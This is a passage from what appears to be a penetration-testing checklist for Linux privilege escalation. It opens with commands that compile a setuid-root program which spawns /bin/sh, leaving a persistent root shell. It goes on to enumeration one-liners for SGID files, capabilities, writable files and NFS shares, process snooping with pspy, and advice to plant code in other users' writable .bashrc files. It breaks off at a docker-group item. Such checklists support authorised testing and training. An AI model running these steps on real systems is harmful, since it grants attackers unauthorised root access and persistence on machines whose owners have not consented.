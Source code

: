 	print 'int main(void){\nsetresuid(0, 0, 0);\\nsystem("/bin/sh");\\n}' \> /tmp/suid.c   
	gcc -o /tmp/suid /tmp/suid.c  
	sudo chmod +x /tmp/suid # execute right
	sudo chmod +s /tmp/suid # setuid bit
	```
- [ ] SGID:
	```bash
	find / -perm -g=s -type f 2>/dev/null
	find / -perm +2000 -user root -type f -print
	```
- [ ] Interesting capabilities on binary
	```bash
	getcap -r / 2>/dev/null
	```
- [ ] Any writable file
	```bash
	# look for any writable file
	find / -type f -writable 2> /dev/null

	# look for writable configuration file
	find /etc -type f -writable 2> /dev/null
	```
- [ ] Any user owned ifle
	```bash
	find / -type f -user username 2>/dev/null
	```
- [ ] Any NFS share
	```bash
	# check if it's avaiable a NFS share
	showmount -e X.X.X.X;
	# mount it and look for files or try to create ones
	# maybe you are another user
	mount X.X.X.X:/ /tmp/
	```
- [ ] Let [Pspy](https://github.com/DominicBreuker/pspy) spy on the processes
	```bash
	# you could find some interesting running processes or credentials
	./pspy > /tmp/pspy-out.txt
	```
- [ ] Is .bashrc writeable?
	```bash
	# if another user's .bashrc is writeable, you could
	# put code inside it and wait the user to login in order
	# to trigger the execution of it
	ls -la /home/*/.bashrc; find / -name .bashrc -xdev 2>/dev/nul
	```
- [ ] Is the user beloging to docker?
	```bash